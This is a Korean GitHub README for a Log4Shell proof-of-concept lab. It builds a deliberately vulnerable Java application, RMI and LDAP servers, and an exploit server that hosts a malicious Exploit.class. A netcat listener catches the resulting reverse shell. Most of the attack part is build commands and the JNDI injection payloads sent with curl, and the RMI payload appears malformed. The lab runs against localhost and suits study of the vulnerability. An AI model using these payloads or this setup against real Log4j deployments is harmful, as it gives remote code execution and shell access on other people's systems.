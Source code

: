 # Log4Shell-PoC
Log4Shell PoC with RMI, LDAP

---- 

# 각 서비스에 대한 설명

|구분|위치|포트(TCP)|설명|
|:--:|:--:|:--:|:--:|
|`Vulnerable Application`|Docker 컨테이너 | 7777 | 취약한 웹 애플리케이션 서버로, Log4Shell 취약점이 발생된다.|
|`RMI Server` | Docker 컨테이너 | 1099 | Vulnerable Appliation으로 부터 RMI 요청을 전달받아, RCE 를 발생시키기 위한 페이로드를 응답한다.|
|`LDAP Server` | Docker 컨테이너 | 389 (openLDAP Server)8080 (phpLDAPadmin)|Vulnerable Appliation으로 부터 LDAP 요청을 전달받아, 악성 Java 객체를 다운로드 받도록 javaCodeBase 속성 값에 Exploit Server 주소 값을 전달한다.|
|`Exploit Server` | 호스트 | 8888 | /Exploit.class 를 요청할 경우 RCE를 일으키는 악성 Java 객체를 반환한다.|
|`nc -lv 9999` | 호스트 | 9999 | Vulnerable Application과 리버스 방식으로 셸을 연결하기 위함|

---- 

# PoC

## 1. Vulnerable Application 셋팅 및 실행

### 빌드 및 실행

1. [DoTTak/Log4Shell-PoC](https://github.com/DoTTak/Log4Shell-PoC) 저장소로 부터 코드를 내려받은 뒤, 해당 프로젝트로 이동한다.
    
    ```bash
    git clone https://github.com/DoTTak/Log4Shell-PoC.git
    cd Log4Shell-PoC
    ```
    
2. 이후 `vulnerable-application` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    cd vulnerable-application
    docker build --platform linux/amd64 -t log4shell-poc-app .
    ```
    
3. 생성된 도커 이미지 `log4shell-poc-app:latest` 를 컨테이너로 실행하자.
    
    > 참고로, 웹 애플리케이션 서버 포트는 항상 `7777` 로 오픈 되어 있다. 변경은 `Application.java` 를 수정하면 된다.
    > 
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-poc-app -p 7777:7777 log4shell-poc-app
    ```

## 2. RMI Server 셋팅 및 실행

### 빌드 및 실행
1.  `rmi-server` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    docker build --platform linux/amd64 -t log4shell-rmi-server .
    ```
    
2. 생성된 도커 이미지 `log4shell-rmi-server:latest` 를 컨테이너로 실행하자.
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-rmi-server -p 1099:1099 log4shell-rmi-server
    ```

## 3. LDAP Server 셋팅 및 실행

> 악성 응답 데이터가 이미 셋팅되어 있다. 

### 빌드 및 실행
1. `ldap-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 실행한다.

    ```bash
    docker-compose up -d
    ```

2. 위 명령어가 정상적으로 수행됐으면 [http://localhost:8080](http://localhost:8080)를 브라우저를 통해 접속한다.

## 4. Exploit Server 셋팅 및 실행

> 참고로, 악성 Java 객체가 이미 컴파일 되어 저장소에 Commit 상태이다.

### 빌드 및 실행
1. `exploit-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 `Exploit.java` 를 컴파일한다.

    ```bash
    javac Exploit.java
    ```

2. 그 다음 해당 경로를 악성 자바 객체를 호스팅하기 위해 아래의 명령어를 통해 웹 서버를 실행한다.

    ```bash
    python3 -m http.server 8888
    ```

## 5. Exploit 수행

> Exploit은 Host에서 Vulnerable Application으로 요청을 수행한다.

### [Exploit] Log4Shell using RMI
```bash
curl localhost:7777/log -H 'msg: ${jndi://host.docker.internal:1099/Service'
```

### [Exploit] Log4Shell using LDAP
```bash
curl localhost:7777/log -H 'msg: ${jndi:ldap://host.docker.internal:389/cn=payload,ou=payloads,dc=example,dc=com}'
```